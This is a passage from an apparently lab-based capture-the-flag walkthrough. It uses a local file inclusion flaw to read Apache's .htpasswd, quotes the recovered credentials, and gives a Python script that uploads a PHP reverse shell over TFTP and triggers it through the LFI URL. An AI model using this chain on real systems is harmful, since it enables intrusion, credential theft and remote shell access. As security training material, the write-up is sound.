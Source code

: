 Apache contains a file called **.htpasswd** that contains user authentication information. It can normally be found in **/var/www/html/** or **/etc/apache2/**.

Let's try to read it using the LFI attack from before:

![screenshot7](../assets/images/included/screenshot7.png)

Great, we now have a working set of credentials:

> mike : Sheffield19 

The interesting file is: **.htpasswd**

---

### [ What is the group that user Mike is a part of and can be exploited for Privilege Escalation? ]

Unfortunately for us, we are not able to log into the target machine via SSH as it is not open. Another way in would be to open a reverse shell.

Let's use TFTP to upload a reverse shell script. We can then have the web server execute the script by accessing it using the LFI vulnerability that we identified earlier on.

*(I'll be using the PHP reverse shell script from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell))*

To upload the reverse shell using TFTP, we can use a nifty Python library called **tftpy**.

We use the following Python script to upload our file:

```python
import tftpy

client = tftpy.TftpClient('10.129.42.205', 69)
client.upload("shell.php", "/home/fatalfuric/Desktop/included/shell.php", timeout=5)
```

After running this, our reverse shell script will be uploaded to **/var/lib/tftpboot/shell.php** on the target machine.

To open the reverse shell, all we have to do is to set up a netcat listener on our local machine, then go to `http://10.129.42.205/?file=/var/lib/tftpboot/shell.php`:

![screenshot8](../assets/images/included/screenshot8.png)
